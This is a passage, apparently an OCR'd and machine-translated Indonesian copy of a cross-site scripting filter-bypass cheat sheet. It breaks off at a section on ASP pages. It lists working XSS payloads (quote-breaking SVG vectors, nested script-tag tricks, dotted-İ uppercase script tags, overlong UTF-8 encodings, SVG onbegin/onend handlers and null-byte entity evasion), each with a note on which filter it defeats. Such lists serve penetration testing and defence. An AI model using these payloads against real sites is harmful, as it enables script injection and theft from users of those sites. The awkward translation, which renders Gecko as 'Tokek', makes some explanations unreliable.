 baik dalam konteks HTML dan javascript, dalam urutan itu, dan dekat satu sama lain. Tag svg

akan membuat blok skrip berikutnya diurai dengan cara yang bahkan jika tanda kutip tunggal menjadi

disandikan sebagai & # 39; dalam refleksi (disanitasi), itu akan berlaku untuk keluar dari nilai saat ini

dan memicu peringatan.

     '-alert(1)-'<svg>
    
     \\'-alert(1)//<svg>

> Strip-My-Script Vector

Gunakan untuk mengelabui filter yang menghapus vektor XSS klasik dan paling dikenal. Ini berfungsi apa adanya dan jika

"<script>" dihapus.

       <svg/on<script><script>load=alert(1)//</script>

> JS Lowercased Input

Gunakan ketika aplikasi target mengubah input Anda menjadi huruf kecil melalui javascript. Mungkin berhasil

juga untuk operasi huruf kecil sisi server.

     <SCRİPT>alert(1)</SCRİPT>
    
     <SCRİPT/SRC=data:,alert(1)> 

> Overlong UTF-8

Gunakan saat aplikasi target melakukan pemetaan yang paling sesuai.

    %CA%BA>%EF%BC%9Csvg/onload%EF%BC%9Dalert%EF%BC%881)>

> Uncommon Event Handlers

Gunakan untuk memintas filter berbasis daftar hitam untuk penangan acara. Ini berfungsi pada Tokek tetapi menambahkan

attributename = x di dalam tag "<set>" membuatnya berfungsi di Webkit juga

       <svg><set onbegin=alert(1)>
    
       <svg><set end=1 onend=alert(1)>

> HTML Entities - Null Byte Tolerance

Gunakan untuk menghindari penyaringan entitas HTML. Semua di atas hanya mewakili karakter "(". Tokek.

      %26%00%2340;
    
      %26%00lpar;
    
      %26%00l%26%00p%26%00a%26%00r%26%00;

> Vectors Exclusive for ASP Pages

Gunakan untuk memintas filter \[\[alpha\] di halaman .asp.
